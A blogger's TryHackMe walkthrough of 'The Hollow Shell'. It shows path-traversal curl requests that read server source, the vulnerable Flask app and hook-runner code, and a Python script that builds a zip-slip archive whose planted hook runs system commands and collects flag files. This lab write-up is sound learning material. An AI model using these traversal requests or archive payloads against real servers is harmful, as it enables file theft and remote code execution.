





+++
title = 'The Hollow Shell | TryHackMe Room Writeup'
date = '2026-08-06T00:00:00+05:00'
lastmod = '2026-08-07T12:00:00+05:00'
draft = false
description = 'A beginner-friendly walkthrough of The Hollow Shell, a TryHackMe web challenge that combines a login leak, archive upload abuse, LFI, and server-side hook execution.'
categories = ['Writeups']
tags = ['TryHackMe', 'Web Security', 'LFI', 'File Upload', 'Archive Abuse']
topics = ['tryhackme']
keyClues = ['shell.json', 'app.py', 'theme_worker.py', '../../hooks/pwn.py', 'curl --path-as-is']
toc = true
image = 'images/room-banner.png'
+++

Welcome to my writeup for the TryHackMe room **The Hollow Shell**. This room took me much longer than I expected, mainly because I spent a lot of time testing the upload form before I understood how the application handled uploaded files in the background.

> **Spoiler warning:** This walkthrough reveals the room's solution path. The final flag is masked.


## Finding the Web Application

The room provided a target URL, but the web application was running on port `5000` rather than the usual HTTP port `80`. A quick Nmap scan confirmed that port `5000` was open.



I opened the site by adding the port to the target address:

```text
http://TARGET_IP:5000
```

The page displayed a staff login form.



Before trying to guess or brute-force the credentials, I checked the page source. The username and password had been left inside an HTML comment.



Using those credentials gave me access to the room's shell upload page.

## Investigating the Upload Form

The application accepted a ZIP file containing a `shell.json` manifest. The expected format was:

```json
{
  "name": "somename",
  "assets": [],
  "hooks": []
}
```



I spent a lot of time testing the file extensions allowed by the uploader. I managed to make code inside an SVG execute when the file was rendered, but that did not lead to the flag. It was a dead end.

At that point, people in the TryHackMe Discord server were hinting at **local file inclusion (LFI)**. Following that hint, I changed direction and started looking for application source files.

## Finding the Application Source

The shell asset route was vulnerable to path traversal. I used `curl` with `--path-as-is` so that it would send the traversal sequence without normalizing it first. Encoding the slash as `%2f` let me step out of the `shells` directory and read `app.py`:

```bash
$ curl --path-as-is "http://10.49.174.5:5000/shells/..%2fapp.py"
```

The response contained the complete Flask application:

```python
#!/usr/bin/env python3

import os
import io
import json
import uuid
import zipfile

from flask import (
    Flask, request, session, redirect, url_for,
    render_template, send_from_directory, abort, flash
)

BASE_DIR   = os.path.dirname(os.path.abspath(__file__))
SHELLS_DIR = os.path.join(BASE_DIR, "shells")
HOOKS_DIR  = os.path.join(BASE_DIR, "hooks")
os.makedirs(SHELLS_DIR, exist_ok=True)
os.makedirs(HOOKS_DIR, exist_ok=True)

ALLOWED_ASSET_EXT = {".png", ".jpg", ".jpeg", ".gif", ".svg", ".css", ".json"}

STAFF_USER = "concierge"
STAFF_PASS = "StayNoticed2024!"

app = Flask(__name__)
app.secret_key = "b1c4f9d2e7a83056-shoreline-display-conch"
app.config["MAX_CONTENT_LENGTH"] = 8 * 1024 * 1024


# Helpers
def logged_in():
    return session.get("staff") == STAFF_USER


def validate_manifest(manifest):
    """Validate the *declared* asset list. Raises ValueError on a bad type."""
    if not isinstance(manifest, dict):
        raise ValueError("shell.json must be a JSON object")
    name = manifest.get("name")
    if not name or not isinstance(name, str):
        raise ValueError("shell.json is missing a 'name'")
    assets = manifest.get("assets", [])
    if not isinstance(assets, list):
        raise ValueError("'assets' must be a list")
    for asset in assets:
        ext = os.path.splitext(str(asset))[1].lower()
        if ext not in ALLOWED_ASSET_EXT:
            raise ValueError(f"asset type not allowed: {asset}")
    return name


def extract_shell(zf, shell_dir):
    os.makedirs(shell_dir, exist_ok=True)
    written = []
    for name in zf.namelist():
        if name.endswith("/"):
            continue
        dest = os.path.join(shell_dir, name)
        os.makedirs(os.path.dirname(dest), exist_ok=True)
        with open(dest, "wb") as fh:
            fh.write(zf.read(name))
        written.append(name)
    return written


@app.route("/")
def index():
    return redirect(url_for("dashboard") if logged_in() else url_for("login"))


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        u = request.form.get("username", "")
        p = request.form.get("password", "")
        if u == STAFF_USER and p == STAFF_PASS:
            session["staff"] = u
            return redirect(url_for("dashboard"))
        flash("Those credentials weren't recognised. Try again.")
    return render_template("login.html")


@app.route("/logout")
def logout():
    session.clear()
    return redirect(url_for("login"))


@app.route("/dashboard")
def dashboard():
    if not logged_in():
        return redirect(url_for("login"))
    shells = []
    for entry in sorted(os.listdir(SHELLS_DIR)):
        meta_path = os.path.join(SHELLS_DIR, entry, "shell.json")
        label = entry
        if os.path.isfile(meta_path):
            try:
                with open(meta_path) as fh:
                    label = json.load(fh).get("name", entry)
            except Exception:
                pass
        shells.append({"id": entry, "name": label})
    return render_template("dashboard.html", shells=shells, user=session["staff"])


@app.route("/upload", methods=["POST"])
def upload():
    if not logged_in():
        return redirect(url_for("login"))

    file = request.files.get("shell")
    if not file or not file.filename:
        flash("No shell selected.")
        return redirect(url_for("dashboard"))

    raw = file.read()
    try:
        zf = zipfile.ZipFile(io.BytesIO(raw))
    except zipfile.BadZipFile:
        flash("That doesn't look like a shell (.zip expected).")
        return redirect(url_for("dashboard"))

    try:
        manifest = json.loads(zf.read("shell.json"))
    except KeyError:
        flash("Shell is missing shell.json.")
        return redirect(url_for("dashboard"))
    except (json.JSONDecodeError, UnicodeDecodeError):
        flash("shell.json could not be parsed.")
        return redirect(url_for("dashboard"))

    try:
        shell_name = validate_manifest(manifest)
    except ValueError as exc:
        flash(f"Shell rejected: {exc}")
        return redirect(url_for("dashboard"))

    shell_id  = uuid.uuid4().hex[:12]
    shell_dir = os.path.join(SHELLS_DIR, shell_id)
    extract_shell(zf, shell_dir)

    flash(f"Shell '{shell_name}' brought ashore. "
          f"Stored at shells/{shell_id}/ and held to the room's ear.")
    return redirect(url_for("dashboard"))


@app.route("/shells/<shell_id>/<path:asset>")
def shell_asset(shell_id, asset):
    """Serve a published shell's assets back to the in-room tablets (static bytes only)."""
    shell_dir = os.path.join(SHELLS_DIR, shell_id)
    if not os.path.isdir(shell_dir):
        abort(404)
    return send_from_directory(shell_dir, asset)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

This source revealed several useful details at once. It confirmed the hardcoded credentials, showed the vulnerable asset route, and exposed the ZIP extraction logic. Most importantly, `validate_manifest()` checked only the files declared in the `assets` list, while `extract_shell()` wrote every ZIP entry using its original name without checking whether the resulting path stayed inside `shell_dir`.

I then used the same LFI to fetch `theme_worker.py`:

```bash
$ curl --path-as-is "http://10.49.174.5:5000/shells/..%2ftheme_worker.py"
```

The response showed exactly what happened to files placed in the hooks directory:

```python
#!/usr/bin/env python3

import os
import sys
import glob
import time
import subprocess

BASE_DIR  = os.path.dirname(os.path.abspath(__file__))
HOOKS_DIR = os.path.join(BASE_DIR, "hooks")
POLL_SECONDS = int(os.environ.get("THEME_WORKER_POLL", "20"))

os.makedirs(HOOKS_DIR, exist_ok=True)


def run_pending_hooks():
    for path in sorted(glob.glob(os.path.join(HOOKS_DIR, "*.py"))):
        # Read the hook into memory and remove it *before* running, so the
        try:
            with open(path, "rb") as fh:
                code = fh.read()
        except OSError:
            continue
        try:
            os.remove(path)
        except OSError:
            pass
        try:
            proc = subprocess.Popen(
                [sys.executable, "-"],
                stdin=subprocess.PIPE,
                stdout=subprocess.DEVNULL,
                stderr=subprocess.DEVNULL,
            )
            proc.stdin.write(code)
            proc.stdin.close()
        except Exception:
            pass


def main():
    while True:
        run_pending_hooks()
        time.sleep(POLL_SECONDS)


if __name__ == "__main__":
    main()
```

This was the key to the room. The worker checked `hooks/` for `*.py` files every 20 seconds, read each file, deleted it, and passed its contents directly to the Python interpreter.

Together, the two source files gave me the full exploit chain:

1. Upload a ZIP with a valid `shell.json`.
2. Include an undeclared entry named `../../hooks/pwn.py`.
3. Let the unsafe extraction write the file outside the new shell directory.
4. Wait for `theme_worker.py` to find and execute it.

That turned the upload into a path to server-side Python execution.

## Building the Malicious ZIP

I used the following script to build the archive. DeepSeek wrote the script for me after I worked out that the ZIP needed to place a Python file in the hooks directory.

```python
import zipfile, json

payload = r'''
import os, glob, stat

# Find the application base directory (where theme_worker.py lives)
base = os.path.dirname(
    next(iter(glob.glob('/**/theme_worker.py', recursive=True)), '/app')
)

# Create an output directory that's web-accessible
out_dir = os.path.join(base, 'shells', 'pwn')
os.makedirs(out_dir, exist_ok=True)

# Gather system info and flag contents
out_path = os.path.join(out_dir, 'out.txt')
with open(out_path, 'w') as f:
    f.write(f"id: {os.popen('id').read().strip()}\n")
    f.write(f"host: {os.popen('hostname').read().strip()}\n\n")

    for flag in glob.glob('/**/flag*', recursive=True):
        try:
            if os.path.isfile(flag):
                f.write(f"== {flag} ==\n")
                with open(flag, 'r', errors='ignore') as ff:
                    f.write(ff.read() + '\n')
        except Exception as e:
            f.write(f"[error] {e}\n")

# Make it readable
os.chmod(out_dir, stat.S_IRWXU | stat.S_IRGRP | stat.S_IROTH)
os.chmod(out_path, stat.S_IRUSR | stat.S_IRGRP | stat.S_IROTH)
'''

with zipfile.ZipFile('hook.zip', 'w') as z:
    z.writestr('shell.json', json.dumps({"name": "x", "assets": []}))
    z.writestr('../../hooks/pwn.py', payload)

print("built hook.zip")
```

The archive contained two files:

```text
shell.json
../../hooks/pwn.py
```

The manifest was enough to satisfy the uploader, while the second filename used path traversal to place `pwn.py` in the hooks directory.

I ran the script to create `hook.zip` and uploaded the resulting archive.



## Retrieving the Flag

After the upload, the background worker found and executed `pwn.py`. The payload searched the server for files beginning with `flag` and wrote anything it found to a web-accessible output file.

I opened the following path in the browser:

```text
/shells/pwn/out.txt
```

The flag was waiting there:

```text
THM{[REDACTED]}
```

## Final Thoughts

The complete path was:

```text
Credentials in page source
          ↓
Authenticated ZIP upload
          ↓
LFI reveals app.py and theme_worker.py
          ↓
ZIP path traversal writes ../../hooks/pwn.py
          ↓
Background worker executes the payload
          ↓
Flag is written to /shells/pwn/out.txt
```

This room really took a long time. The SVG route looked promising at first, and I probably stayed with it longer than I should have. Finding the application source through LFI was the turning point because it showed that the real vulnerability was not an allowed file extension, it was how the server extracted the archive and processed hooks afterward.

I also have to thank the TryHackMe Discord server. Their LFI hints helped me get unstuck and pointed me toward the part of the application I needed to investigate.

And we're done!
